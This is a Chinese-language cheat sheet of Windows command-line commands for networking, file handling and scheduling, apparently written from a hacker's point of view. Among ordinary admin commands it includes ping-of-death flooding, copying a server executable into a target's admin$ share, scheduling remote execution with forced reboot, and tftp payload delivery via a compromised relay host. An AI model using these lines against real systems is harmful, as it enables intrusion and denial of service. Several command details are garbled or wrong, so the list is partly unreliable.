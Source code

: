 net view \\ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况（查看tcp/ip协议使用情况）
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符\路径\要移动的文件名　存放移动文件的路径\移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at \\ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远和登陆服务器,默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径\文件名1　路径\文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:\srv.exe \\ip\admin$ 复制本地c:\srv.exe到对方的admin下
cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
copy \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址\目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　put c:\server.exe 登陆后，上传本地c:\server.exe至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
mem 查看cpu使用情况
attrib 文件名(目录名) 查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符 设置环境变量
set 显示当前所有的环境变量
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
pause 暂停批处理程序，并显示出：请按任意键继续....
if 在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
call 路径\批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
